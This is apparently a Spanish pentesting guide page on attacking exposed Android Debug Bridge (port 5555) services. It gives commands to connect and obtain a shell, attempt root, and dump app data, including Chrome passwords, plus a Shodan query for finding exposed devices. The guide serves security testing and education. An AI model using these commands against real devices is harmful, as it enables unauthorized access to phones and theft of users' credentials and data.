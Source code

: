 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Información Básica

De [la documentación](https://developer.android.com/studio/command-line/adb):

**Android Debug Bridge** (adb) es una herramienta de línea de comandos versátil que te permite comunicarte con un dispositivo. El comando adb facilita una variedad de acciones en el dispositivo, como **instalar y depurar aplicaciones**, y proporciona **acceso a un shell de Unix** que puedes usar para ejecutar una variedad de comandos en un dispositivo.

**Puerto por defecto**: 5555.
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Conectar

Si encuentras el servicio ADB ejecutándose en un puerto de un dispositivo y puedes conectarte a él, **puedes obtener un shell dentro del sistema:**
```bash
adb connect 10.10.10.10
adb root # Try to escalate to root
adb shell
```
Para más comandos de ADB, consulta la siguiente página:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

### Volcar datos de la aplicación

Para descargar completamente los datos de una aplicación, puedes:
```bash
# From a root console
chmod 777 /data/data/com.package
cp -r /data/data/com.package /sdcard Note: Using ADB attacker cannot obtain data directly by using command " adb pull /data/data/com.package". He is compulsorily required to move data to Internal storage and then he can pull that data.
adb pull "/sdcard/com.package"
```
Puedes usar este truco para **recuperar información sensible como contraseñas de chrome**. Para más información sobre esto, consulta la información y referencias proporcionadas [**aquí**](https://github.com/carlospolop/hacktricks/issues/274).

## Shodan

- `android debug bridge`

{{#include ../banners/hacktricks-training.md}}
